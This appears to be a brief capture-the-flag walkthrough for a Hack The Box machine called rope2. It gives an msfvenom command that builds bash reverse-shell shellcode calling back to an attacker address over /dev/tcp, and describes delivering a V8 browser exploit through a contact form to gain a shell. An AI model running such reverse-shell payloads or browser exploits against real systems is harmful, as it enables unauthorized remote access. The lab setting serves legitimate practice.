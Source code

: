 #generate the shell
> msfvenom -p linux/x64/exec -f num CMD='bash -c "bash -i >& /dev/tcp/10.10.xx.xx/9001 0>&1"'

#replace the your generated shellcode with the shellcode in pwn.js [line: 94]

#start python http server on port 8080 and use netcat to listner on selected port 9001

#Ahead over to http://10.10.10.196:8000/contact

type anything in name and subject but paste the contents of index.html in message box, click on send
if everything works, you should gave a shell as chromeuser

for those who want to know what's going on
https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/

v8 used in rope2 box is exactly compiled the with same patch as show in blog, but later pointer compression was added the exploit shown in blog works no more, tweaking exploit little bit should work.
